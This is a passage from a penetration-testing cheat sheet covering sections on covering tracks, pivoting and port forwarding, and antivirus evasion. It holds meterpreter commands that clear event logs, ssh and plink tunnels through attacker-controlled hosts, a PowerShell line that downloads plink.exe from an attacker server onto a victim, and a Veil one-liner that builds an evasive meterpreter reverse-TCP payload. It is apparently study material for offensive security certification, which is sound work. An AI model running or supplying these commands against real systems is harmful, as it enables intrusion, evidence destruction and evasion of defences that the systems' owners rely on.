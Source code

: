 ## 17. Cover Tracks 		*#lol illuminati-mode*
[Clean Up](https://sushant747.gitbooks.io/total-oscp-guide/content/clean_up.html) | [Covering Your Tracks By gimboyd](http://www.dankalia.com/tutor/01005/0100501003.htm)
	
	meterpreter> run clearlogs
	meterpreter> clearev

## 18. Pivoting, Port forwarding and tunneling
[port_forwarding_and_tunneling](https://sushant747.gitbooks.io/total-oscp-guide/port_forwarding_and_tunneling.html) | [visual pivot attack](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#starting-point) | [PayloadsAllTheThings - Pivoting Techniques](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Network%20Pivoting%20Techniques.md)

*Local Forwarding:*	#forward a port from the client machine to the server machine.

	ssh -L 80:victim.com:80 attacker.com		#OpenSSH
	ssh -L 9090:victimIP:445 user@attackerIP	#Port 9090 locally is forwarded to port 445 on victimIP through attackerIP host

*[Remote Forwarding:](https://www.ssh.com/ssh/tunneling/example)*	#outside(public) access to an internal web server. staff working from home, or by an attacker.

	ssh -R 8080:localhost:80 public.example.com
	
*windows portforward [plink.exe:](https://www.ssh.com/ssh/putty/putty-manuals/0.68/Chapter7.html)*

	cd /usr/share/windows-resources/binaries/ | python3 -m http.server 9000
	PS victim: Invoke-WebRequest -Uri http://10.10.10.160:9000/plink.exe -OutFile plink.exe	
	#plink.exe -l <kali_user> -pw <kali_passwd> <kaliIP> <-R bind to lport>:127.0.0.1:<rport>
	cmd victim: plink.exe -l root -pw kalipasswd 192.168.0.101 -R 8080:127.0.0.1:8080

*[meterpreter portforward:](https://highon.coffee/blog/ssh-meterpreter-pivoting-techniques/#ssh-port-forwarding)* | [metasploitable-3-meterpreter-port-forwarding](https://ultimatepeter.com/metasploitable-3-meterpreter-port-forwarding/)
	
	portfwd add -l <kali port> -p <victim port> -r <victim ip>	
	portfwd add -l 3306 -p 3306 -r 10.10.10.180			#mySQL portforward ##portforwarding
	nc 127.0.0.1 3306 | mysql -u root 127.0.0.1			#can access this port on our machine locally
	portfwd flush							#delete all port forwards
	portfwd list							#list active port forwards
	
*[sshuttle](https://github.com/sshuttle/sshuttle) (linux):*

	#forwards over ssh. Doesn't require admin. Works with Linux and MacOS. Supports DNS tunneling. 
	sshuttle -r root@kaliIP 10.10.10.0/24
	
	
## 19. AV Evasion 		*#lol illuminati-mode*

**[Veil:](https://github.com/Veil-Framework/Veil)** 			

	cd /usr/share/veil; sudo ./Veil.py -t Evasion -p go/meterpreter/rev_tcp.py --ip 127.0.0.1 --port 4444 -o evil   #veil one liner, output at /var/lib/veil/output/compiled/
	
## 20. Exfiltration | Password Cracking | Wordlists
